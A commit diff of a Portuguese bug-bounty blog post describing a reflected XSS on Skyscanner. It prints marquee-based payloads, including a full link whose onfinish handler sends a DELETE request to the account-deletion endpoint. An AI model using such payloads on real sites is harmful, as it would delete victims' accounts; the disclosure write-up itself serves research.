

Before and after one commit to vitor-fernandes/vitor-fernandes.github.io, a Jekyll site: the page built from _posts/2019-06-10-Bug-Bounty-03.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1355 px. Shown: the top 952 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Bug Bounty 03

```diff
--- a/_posts/2019-06-10-Bug-Bounty-03.markdown
+++ b/_posts/2019-06-10-Bug-Bounty-03.markdown
@@ -15,7 +15,6 @@
 
 <p>
 <code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/kef/190615/190622/?adults=1&children=0&adultsv2=1&childrenv2=&infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home#results</code>
-<br>
 <br>
 </p>
 
@@ -42,7 +41,7 @@
 <br>
 Depois de algumas tentativas, decidi inserir uma tag que já havia utilizado em outros programas de bug bounty:
 <br>
-<code>">&ltmarquee>rapt00r&lt/marquee></code>
+<code>">&lt;marquee>rapt00r&lt;/marquee></code>
 <br>
 <br>
 Esta tag cria uma espécie de painel (tipo aqueles painéis de LED que as letras ficam indo de uma ponta a outra do painel)
@@ -64,13 +63,14 @@
 <p align="justify">
 Bom, nesse ponto nosso payload estava da seguinte forma:
 <br>
-<code>">&ltmarquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt/marquee></code>
+<code>">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee></code>
 <br>
 </p>
 
 <p>
 Agora, o link junto com o payload ficaria da seguinte forma:
-<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&ltmarquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt/marquee>&ampcurrency=BOB</code>
+<br>
+<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee>&ampcurrency=BOB</code>
 </p>
 
 <p align="justify">
@@ -97,11 +97,10 @@
 request.send();</code>
 
 <p align="justify">
-<br>
 E o link final para explorar a vulnerabilidade ficou da seguinte forma:
 </p>
 <p>
-<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &ltmarquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt/marquee>&ampcurrency=BOB</code>
+<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &lt;marquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt;/marquee>&ampcurrency=BOB</code>
 </p>
 
 <p align="justify">
```
